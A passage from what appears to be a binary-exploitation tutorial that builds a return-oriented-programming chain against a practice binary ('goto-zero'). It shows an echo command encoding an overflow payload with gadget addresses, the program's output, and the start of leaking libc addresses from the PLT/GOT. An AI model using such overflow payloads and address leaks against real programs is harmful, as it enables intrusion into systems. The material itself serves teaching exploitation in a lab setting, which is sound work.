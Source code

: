 The final thing is our old friend the debug breakpoint - that way we can make sure everything is going right - 0x4011a0. So here's our final stack:

* `pop rdi / ret` (0x401281)
* Our string (0x402010) 
* `puts()` (0x401030)
* Debug (0x4011a0)

So now encode that all into our payload, remembering that each address is encoded into 8 backwards (little endian) bytes:

```
$ echo -ne 'AAAAAAAAAAAAAA\n''BBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOO''\x81\x12\x40\x00\x00\x00\x00\x00''\x10\x20\x40\x00\x00\x00\x00\x00''\x30\x10\x40\x00\x00\x00\x00\x00''\xa0\x11\x40\x00\x00\x00\x00\x00' > test.bin

$ ./goto-zero.patched < test.bin
Enter 14 characters then press enter!
What is your name?

Good job, BBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOO�@Enter %d characters then press enter!

fish: Job 1, './goto-zero.patched < test.bin' terminated by signal SIGTRAP (Trace or breakpoint trap)
```

Well there we go! We printed out some arbitrary memory and then hit a debug breakpoint!

Do you know what else lives in arbitrary memory? Memory addresses! Remember what we needed to call a `libc.so` function? A memory address!

Let's look at that `.plt` thing again.

### Reading the linking table

Since we could call `puts()` from our own binary, it's somewhat obvious that our binary has `libc.so` addresses somewhere! Otherwise, it wouldn't know where to go.

The way linking and imports and stuff actually work is kinda complex - the book [Practical Binary Analysis](https://practicalbinaryanalysis.com/) explains it better than most - but suffice to say that we can find `libc.so` addresses in the non-PIE binary we're running if we know where to look.

Once again, non-`objdump` tools are much better at displaying these addresses, but here's the `.plt` entry for `puts`:

```
0000000000401030 <puts@plt>:
  401030:       ff 25 ca 2f 00 00       jmp    QWORD PTR [rip+0x2fca]        # 404000 <puts@GLIBC_2.2.5>
  401036:       68 00 00 00 00          push   0x0
  40103b:       e9 e0 ff ff ff          jmp    401020 <_init+0x20>
```

The first line does some math to reference a different part of the binary. `objdump` helpfully does that math and says it's 0x404000. That's the address where the actual `puts` address is stored, but with a little twist: it's only there *after* it's called - the linking is done opportunistically (see Practical Binary Analysis for all the details).
